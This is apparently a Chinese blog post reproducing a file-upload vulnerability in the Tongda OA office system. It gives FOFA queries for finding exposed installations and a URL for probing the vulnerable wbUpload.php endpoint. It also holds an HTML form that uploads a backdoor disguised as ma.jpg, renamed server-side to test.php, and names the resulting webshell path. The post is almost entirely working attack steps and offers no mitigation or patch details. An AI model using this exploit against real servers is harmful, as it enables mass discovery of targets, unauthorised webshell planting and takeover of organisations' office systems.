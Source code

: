 ﻿---
layout: post
title: 漏洞复现：通达oa文件上传
date: 2019-10-06
categories: blog
tags: [漏洞复现，通达oa]
description: 漏洞复现：通达oa
---

#### 一、目标
fofa搜索
- `title="网络智能办公管理系统"`
- `app="通达OA"`

- 测试是否存在上传漏洞
访问`[ip地址:端口]/general/vmeet/wbUpload.php`
响应200，则可能存在漏洞
![](https://upload-images.jianshu.io/upload_images/15634342-e6e853aa9618806b.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

- 在本地创建上传脚本为test.html，打开test.html上传后门
- 
```html
<form enctype="multipart/form-data" action="ip+端口/general/vmeet/wbUpload.php?fileName=test.php+" method="post">

<input type="file" name="Filedata" size="50"><br>

<input type="submit" value="Upload">

</form>
```
- 以ma.jpg形式上传，上传后自动帮你重命名为test.php，真是神奇，大概率存在其他洞洞
- 上传成功后webshell路径为
`ip+端口/general/vmeet/wbUpload/test.php`













